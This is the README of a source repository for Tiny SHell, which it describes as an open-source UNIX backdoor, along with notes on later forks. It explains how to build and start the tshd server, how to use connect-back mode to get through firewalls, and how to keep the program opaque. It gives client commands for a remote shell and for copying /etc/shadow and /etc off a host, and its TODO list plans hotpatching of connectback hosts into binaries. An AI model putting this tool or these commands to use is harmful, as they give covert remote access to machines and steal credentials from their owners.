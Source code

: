 ## Tiny SHell - An open-source UNIX backdoor, written by Christophe Devine, which enhancements and utilities from others

Christophe Devine released this tool licensed under 'the GPL' though he did not specify which version

This fork, licensed by copyright@mzpqnxow.com, is released under the GPLv2. See LICENSE and LICENSE.md for more information on this license


### https://github.com/mzpqnxow/tsh fork

This is a fork of the fork by creaktive with a focus on portability and convenience

  * Restored the portability feature of defaulting to /bin/sh (busybox, AIX, HP-UX, IRIX, many Solaris need this)
  * Restored the more 'old school' way of the server, not accepting any arguments and being fairly opaque about what it even is (just minimal obfuscation)
  * Added simple way to avoid using a login shell at all (via ```MINIMAL=1 ./tsh```)
  * Added a way to explicitly specify Bash if you really want to (via ```BASH=1 ./tsh```)
  * Since creaktive's default of using /bin/bash was removed in my fork, it caused Debian derived systems to break since dash doesn't handle --login, fixed using /bin/sh -l (via ```DASH=1 ./tsh```)

#### TODO
  * Add a collection of statically built (w/musl libc) executables for MIPS and ARM variants
  * Add a tool to hotpatch a hardcoded port and/or connectback host/IP into a tshd binary


### https://github.com/creaktive/tsh fork
  * Added iPhone buildability and a usage function
  * Redid the Makefile
  * Upgraded the ciphers
  * Added some argv[] handling
  * Maybe some other stuff?
  * Does not add any new licensing terms

### Original tsh version 0.6

```
                 Tiny SHell - An open-source UNIX backdoor


    Before compiling Tiny SHell

        1. First of all, you should setup your secret key, which
           is located in tsh.h; the key can be of any length (use
           at least 12 characters for better security).

        2. It is advised to change SERVER_PORT, the port on which
           the server will be listening for incoming connections.

        3. You may want to start tshd in "connect-back" mode if
           it runs on on a firewalled box; simply uncomment and
           modify CONNECT_BACK_HOST in tsh.h.

    * Compiling Tiny SHell

        Run "make <system>", where <system> can be any one of these:
        linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

    * How to use the server

        It can be useful to set $HOME and the file creation mask
        before starting the server:

            % umask 077; HOME=/var/tmp ./tshd

    * How to use the client

        Make sure tshd is running on the remote host. You can:

        - start a shell:

            ./tsh <hostname>

        - execute a command:

            ./tsh <hostname> "uname -a"

        - transfer files:

            ./tsh <hostname> get /etc/shadow .
            ./tsh <hostname> put vmlinuz /boot

        Note: if the server runs in connect-back mode, replace
        the remote machine hostname with "cb".

    * About multiple file transfers

        At the moment, Tiny SHell does not support scp-like multiple
        and/or recursive file transfers. You can work around this bug
        by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

    * About terminal modes

        On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
        and other control keys do not work correctly. Fix it with:

            % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

    * About security

        Please remember that the secret key is stored in clear inside
        both tsh and tshd executables; therefore you should make sure
        that no one except you has read access to these two files.
        However, you may choose not to store the real (valid) key in
        the client, which will then ask for a password when it starts.
```
